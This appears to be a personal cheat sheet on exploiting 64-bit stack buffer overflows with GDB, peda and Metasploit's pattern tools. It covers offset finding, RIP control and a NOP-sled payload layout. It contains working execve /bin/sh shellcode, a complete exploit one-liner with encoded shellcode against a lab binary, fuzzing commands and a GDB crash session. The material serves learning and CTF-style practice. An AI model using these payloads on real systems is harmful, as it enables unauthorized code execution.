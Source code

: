 # GDB

## 64 Bit

Step 1: Generate a pattern, copy and paste this as input to the binary (use pattern_create.rb from
Metasploit)
or gdb-peda -> pattern arg 2000 (runs program with arg)

Step 2: Read and copy the value from register RBP for the offset. 

Step 3: Calculate the offset. (use pattern_offset.rb from Metasploit) 
gdb-peda > patts

```console
Registers point to pattern buffer:
[RSI] --> offset 1982 - size ~18
[RDI] --> offset 1982 - size ~18
[RSP] --> offset 1032 - size ~203
``` 
Step 4: Try control the register RIP with the following payload  
Junk*(offset value) + 8 bytes of dummy  
Step 5: Read the stack or register RSP to find a suitable return address.  
Step 6: The general payload should be like below  
Nop + shellcode + Junks + return address  

Hint 2: Working shellcode

\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05

Hint 3: Running the payload with the binary

(python -c "print('\x90'*(fill in the number) + (shellcode) + 'A'*(fill in the number)
+(return address))";cat) | ./bof64

```console
Running Payload outside GDB
$ ./leave_msg $(python -c "print '\x55' * 1841 + '\x90' * 124 + '\xda\xc3\xb8\x7d\x24\xf0\x6e\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x12\x83\xea\xfc\x31\x42\x13\x03\x3f\x37\x12\x9b\x8e\xec\x25\x87\xa3\x51\x99\x22\x41\xdf\xfc\x03\x23\x12\x7e\xf0\xf2\x1c\x40\x3a\x84\x14\xc6\x3d\xec\xd9\x38\xbe\xed\x4d\x3b\xbe\xfc\xd1\xb2\x5f\x4e\x8f\x94\xce\xfd\xe3\x16\x78\xe0\xc9\x99\x28\x8a\xbf\xb6\xbf\x22\x28\xe6\x10\xd0\xc1\x71\x8d\x46\x41\x0b\xb3\xd6\x6e\xc6\xb4' + '\x2c\xd7\xff\xff'")
```

## Commands

```console
(gdb) set disassembly-flavor intel
- Set the Intel syntax

(gdb) disassemble main
- disassemble the program's main function

(gdb) x/2000xb $esp+500
-examine 
```

## Fuzzing

```console
$ echo $(python -c 'print("A" * 650)') | ./bof
(gdb) run $(python -c 'print("A" * 650)')
(gdb) r < <(python -c 'print("A" * 650)')
```

## Using GDB
Hello there can anyone explain me the difference between these to commands? Sometime the first one is working and sometimes only the second one 

```console

```

```console
$ gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) r < <(python -c 'print("A" * 650)')
Starting program: /home/des/bof < <(python -c 'print("A" * 650)')
Enter some string:

Program received signal SIGSEGV, Segmentation fault.
0x000055555555484e in foo ()
(gdb) i r
rax            0x0      0
rbx            0x3e9    1001
rcx            0x0      0
rdx            0x0      0
rsi            0x555555554956   93824992233814
rdi            0x7ffff7dd0760   140737351845728
rbp            0x4141414141414141       0x4141414141414141
rsp            0x7fffffffe3b8   0x7fffffffe3b8
r8             0xffffffffffffffed       -19
r9             0x25e    606
r10            0x5555557564cb   93824994337995
r11            0x555555554956   93824992233814
r12            0x3e9    1001
r13            0x7fffffffe4b0   140737488348336
r14            0x0      0
r15            0x0      0
rip            0x55555555484e   0x55555555484e <foo+84>
eflags         0x10206  [ PF IF RF ]
cs             0x33     51
ss             0x2b     43
ds             0x0      0
es             0x0      0
fs             0x0      0
gs             0x0      0

(gdb) x/xg $rsp
0x7fffffffe3b8: 0x3775413675413575
```

Create a pattern with 650 bytes, run it and check the offset with the **rsp** `0x3775413675413575`

```console
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x3775413675413575
[*] Exact match at offset 616
```